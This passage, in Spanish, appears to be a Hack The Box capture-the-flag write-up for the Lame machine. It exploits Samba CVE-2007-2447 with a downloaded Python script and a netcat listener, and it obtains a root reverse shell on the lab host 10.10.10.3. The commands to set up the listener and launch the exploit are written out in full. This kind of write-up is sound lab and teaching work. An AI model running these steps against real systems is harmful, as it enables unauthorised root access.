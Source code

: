 ```console
Samba 3.3.5 - Format String / Security Bypass                                                                                | exploits/linux/remote/33053.txt
Samba 3.4.16/3.5.14/3.6.4 - SetInformationPolicy AuditEventsInfo Heap Overflow (Metasploit)                                  | exploits/linux/remote/21850.rb

```

Como se  puede observar, es vulnerable a `Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution`. La idea es evitar el uso de **Metasploit** que es una framework para realizar pruebas de pentesting de manera automatizada para familiarizarnos y entender  el comportamiento de los scripts que explotan las vulnerabilidades.

Se busca información sobre `samba usermap script` y encontramos el siguiente [artículo](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/) que nos descibe la **CVE** (Common Vulnerabilities and Exposures) correspondiente. 

En este punto se procede a descargar un script escrito en **Python** para realizar la explotación [enlace](https://github.com/amriunix/CVE-2007-2447) 


## Explotación

Antes de ejecutar el script previamente descargado, se procede a crear una sesión con **netcat** que es una herramienta de red nos permite ponernos en modo escucha en un puerto seleccionado tanto en TCP como UDP. El comando a ejecutar es el siguiente:
`nc -lvp 4444`

- `-l:` activa el modo escucha
- `-v:` informa el estado de la sesión
- `-p:` permite especificar el puerto local que se va a utilizar

Ahora se procede a ejecutar el exploit descargado anteriormente usando el siguiente comando:
`python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>`

- `<RHOST>:` la dirección IP de la máquina Lame (10.10.10.3)
- `<RPORT>:` el puerto de la máquina Lame (TCP 139)
- `<LHOST>:` la dirección IP de la máquina local
- `<LPORT>:` el puerto que se haya establecido en netcat (TCP 4444)

```console
root@kali:/home/kali/Documents/HTB/Machines/Lame/exploits/CVE-2007-2447# python usermap_script.py 10.10.10.3 139 10.10.14.11 4444
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```

En este instante ya se está dentro de la máquina como *root*, lo que queda por hacer es ir a los directorios donde se encuentran las flags del *usuario* y del *root*.

```console
root@kali:/home/kali# rlwarp -nlvp 4444
bash: rlwarp: command not found
root@kali:/home/kali# rlwrap -nlvp 4444
rlwrap: error: Cannot execute 4444: No such file or directory
root@kali:/home/kali# rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.3] 51795

whoami
root
```
